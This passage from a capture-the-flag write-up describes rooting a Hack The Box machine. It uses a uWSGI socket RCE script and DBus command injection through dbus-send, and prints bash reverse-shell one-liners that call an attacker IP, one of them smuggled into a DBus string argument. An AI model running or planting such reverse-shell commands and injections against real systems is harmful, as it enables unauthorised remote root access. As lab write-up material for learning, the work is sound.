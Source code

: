 ```
qtc@de8d92c274d6:~$ python3 rce.py -m unix -u /tmp/uwsgi.socket -c 'bash -c "bash -i >& /detcp/172.18.0.1/4444 0>&1"'
[*]Sending payload.
```

<figure><img src="../../../.gitbook/assets/image (9) (4) (3).png" alt=""><figcaption></figcaption></figure>

### DBus RCE

As `www-data`, we have some permissions over `dbus`. Well, Hacktricks kinda spoiled the exploit for me because it revealed the exact command to use to get RCE as root using `dbus-send`.

How this exploit works is that the main machine is running `iptables` to block the IP addresses (remember the cronjob?). As such, we can try to test whether the input being sent there is sanitised. If it is not, we have a chance to inject code. To do this, we would need a method to send `dbus` messages, and this can be done with `dbus-send`.&#x20;

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#exploit-it" %}

We can append the RCE exploit at the back. Since the `iptables` portion is being handled by the `root` user on the main machine, the command is run as `root`, giving us a root shell!

```
www-data@de8d92c274d6:/tmp$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';bash -c "bash -i >& /dev/tcp/10.10.14.39/4444 0>&1" #'
<h -c "bash -i >& /dev/tcp/10.10.14.39/4444 0>&1" #'                                         
method return time=1678608399.001859 sender=:1.3 -> destination=:1.436 serial=4 reply_serial=2                                                                                            
   string "Carried out :D"
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

I wonder why this machine isn't in Insane level...
